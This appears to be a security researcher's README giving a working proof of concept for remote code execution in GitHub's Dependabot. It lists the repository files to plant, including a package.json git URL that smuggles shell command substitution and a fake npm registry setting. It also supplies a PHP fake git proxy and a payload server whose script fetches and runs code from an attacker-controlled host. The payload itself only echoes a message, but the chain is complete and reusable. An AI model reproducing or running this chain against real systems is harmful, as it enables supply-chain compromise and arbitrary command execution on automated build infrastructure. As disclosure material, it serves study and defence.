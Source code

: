 # PoC for dependabot RCE

After the preparation, you can see your dependabot result from <https://github.com/tyage/dependabot-test4/network/updates>

## Prepare GitHub Repository

Add following files:

`.npmrc`
```
registry="http://registry.npmjs.org@mocos.kitchen/registry"
```

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "3.0.0"
    }
  }
}
```

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "package1": "git+https://github.com.mocos.kitchen/github.com/$($(curl$IFS@mocos.kitchen:3000/bash.txt))$(ps)?/github.com/tyage/tyage-sample-package.git#semver:4.0.0"
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```

## Prepare Servers

Following servers required.

1. Fake npm registry

`http://registry.npmjs.org@mocos.kitchen/registry/package1` should return this file:

```json
{
    "name": "tyage-sample-package",
    "version": "a"
}
```

2. Fake git repository

`https://github.com.mocos.kitchen/github.com/...` should run this PHP file:

```php
<?php
if (!empty($input)) {
  // proxy request to https://github.com/tyage/sample-package.git/git-upload-pack
  $url = "https://github.com/tyage/sample-package.git/git-upload-pack";
  $context = ["http" => [
    "method" => "POST",
    "header" => [ "Content-Type: application/x-git-upload-pack-request" ],
    "content" => $input
  ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-result");
  echo $result;

} else {
  // proxy request to https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack
  $context = ["http" => [ "header" => [] ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $url = "https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack";
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-advertisement");
  echo $result;
}
```

3. Payload server

`http://mocos.kitchen:3000/bash.txt` return this:

```bash
eval `wget mocos.kitchen:3000/payload.txt; bash payload.txt`
```

`http://mocos.kitchen:3000/payload.txt` return this:

```bash
# you can run arbitrary OS command here
echo hello world
```
